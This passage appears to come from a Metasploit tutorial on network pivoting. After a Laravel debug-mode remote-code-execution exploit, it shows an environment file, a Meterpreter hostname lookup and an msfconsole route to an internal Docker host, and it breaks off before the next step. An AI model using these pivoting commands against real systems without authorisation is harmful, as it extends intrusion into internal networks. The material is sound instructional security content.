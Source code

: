 ```text

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_MAILER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null
MAIL_FROM_ADDRESS=null
MAIL_FROM_NAME="${APP_NAME}"

AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=us-east-1
AWS_BUCKET=

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

We can use Meterpreter to resolve this remote hostname to an IP address that we can use for attacking purposes:

```text
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

As this is an internal IP address, it won’t be possible to send traffic to it directly. We can instead leverage the network pivoting support within msfconsole to reach the inaccessible host. To configure the global routing table in msfconsole, ensure you have run the `background` command from within a Meterpreter session:

```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51/32 -1
[*] Route added
```

We can also see, due to the presence of the `/.dockerenv` file, that we are in a docker container. By default, Docker chooses a hard-coded IP of `172.17.0.1` to represent the host machine. We will also add that to our routing table for later scanning:
